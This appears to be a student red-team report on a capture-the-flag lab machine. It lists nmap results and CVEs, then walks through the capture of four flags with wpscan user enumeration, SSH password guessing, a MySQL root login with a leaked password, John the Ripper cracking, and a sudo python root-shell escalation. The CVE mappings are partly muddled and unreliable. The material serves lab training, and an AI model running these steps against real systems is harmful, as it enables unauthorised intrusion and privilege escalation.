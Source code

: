 **Red Team: Summary of Operations**


**Table of Contents**
- Exposed Services
- Critical Vulnerabilities
- Exploitation


**Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:
`’’bash
$ nmap -sV 192.168.1.100/24


This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Ports/Services
22/tcp           open        SSH                OpenSSH
80/tcp           open        http               Apache
111/tcp          open        rpcbind            2-4
139/tcp          open        netbios-ssn        Samba
445/tcp          open        netbios-ssn        Samba

 
**List of Critical Vulnerabilities**

The following vulnerabilities were identified:

CVE-2014-0226 - allows remote attackers to cause a denial of service (heap-based buffer 
overflow), or possibly obtain sensitive credential information or execute arbitrary code. The first vulnerability allows hackers to potentially access sensitive information. With the scan that was used to find vulnerabilities it will also give the bad actor directories marked as interesting highlighting that there may be something of use in those directories.


CVE-2014-3503 - pertains to weak random values to generate passwords, which makes it easier for remote attackers to guess the password via a brute force attack. Password policies must be adhered to because many brute force attacks rely on simple password combinations to crack the account. Sometimes a brute force is not required as this user used their name as the password which is also unadvisable
. 
CVE-2000-0525 - OpenSSH does not properly drop privileges when the UseLogin option is enabled, which allows local users to execute arbitrary commands by providing the command to the ssh daemon. With an SSH connection that comes from an unknown IP address, the system can expose information that the hacker can further leverage to manipulate the system even more.

(Images/target1_vulnscan.jpg)


**Exploitation**


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
     **Exploit Used**
      - viewed HTML source code
      - used Page inspect
      (Images/flag_1.jpg)

  

   - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
      **Exploit Used**
      - Used wpscan to enumerate users from the wordpress site, giving us target to exploit
      - by guessing a user password, an SSH connection was made to the web server
      - flag was found in the /var/www directory
Commands        -wpscan --url http://192.168.1.110/wordpress --enumerate u
                      - ssh michael@192.168.1.110
                      - cat flag2.txt
                      (Images/flag_2.jpg)

    -  ‘flag3’: flag3{afc01ab56b50591e7dccf93122770cd2}
       **Exploit Used**
        - mySQL database config file was leveraged to find root user access to mySQL database
        - through investigation, SQL queries were made to find password hashes for Wordpress users
        - flag found in the table
Commands        - mysql -u root -p ‘R@v3nSecurity’
                        - show databases; use wordpress; show tables; select * from wp_posts;
                        (Images/flag_3.jpg)


     -   ‘flag4’: flag4{715dea6c055b9fe3337544932f2941ce}
          **Exploit Used**
          - through mySQL infiltration, found another user to use as opportunity to get to root user
          - used john the ripper on the password hashes collected from mySQL database
          - found password for other user and connected via SSH
          - this user can run python commands with sudo
          - root system OS must be leveraged to gain root access
          - flag found in home directory for root user
Commands        - john wp_hashes.txt -wordlist=rockyou.txt
                         - ssh steven@192.168.1.110
                          - sudo python, import os, os.system(“/bin/bash”)
                          - cat flag4.txt
                          (Images/flag_4.jpg)
